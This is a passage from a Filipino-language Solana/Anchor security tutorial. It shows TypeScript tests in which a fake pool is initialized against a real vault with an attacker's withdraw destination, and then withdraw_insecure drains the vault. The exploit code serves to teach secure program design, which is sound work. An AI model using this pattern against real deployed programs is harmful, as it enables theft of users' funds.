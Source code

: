 ### 2. Subukan ang instruction na `withdraw_insecure`

Kasama sa test file ang code para i-invoke ang `initialize_pool` na pagtuturo at pagkatapos ay mag-mint ng 100 token sa `vault` token account. Kasama rin dito ang pagsubok para i-invoke ang `withdraw_insecure` gamit ang nilalayong `withdraw_destination`. Ipinapakita nito na ang mga tagubilin ay maaaring gamitin ayon sa nilalayon.

Pagkatapos nito, may dalawa pang pagsubok upang ipakita kung paano madaling pagsamantalahan ang mga tagubilin.

Invokes ng unang pagsubok ang tagubiling `initialize_pool` na gumawa ng "pekeng" `pool` account gamit ang parehong token account ng `vault`, ngunit ibang `withdraw_destination`.

Ang pangalawang pagsubok ay aalis mula sa pool na ito, na epektibong nagnakaw ng mga pondo mula sa vault.

```tsx
it("Insecure initialize allows pool to be initialized with wrong vault", async () => {
    await program.methods
      .initializePool(authInsecureBump)
      .accounts({
        pool: poolInsecureFake.publicKey,
        mint: mint,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        payer: walletFake.publicKey,
      })
      .signers([walletFake, poolInsecureFake])
      .rpc()

    await new Promise((x) => setTimeout(x, 1000))

    await spl.mintTo(
      connection,
      wallet.payer,
      mint,
      vaultInsecure.address,
      wallet.payer,
      100
    )

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(100)
})

it("Insecure withdraw allows stealing from vault", async () => {
    await program.methods
      .withdrawInsecure()
      .accounts({
        pool: poolInsecureFake.publicKey,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        authority: authInsecure,
        signer: walletFake.publicKey,
      })
      .signers([walletFake])
      .rpc()

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(0)
})
```
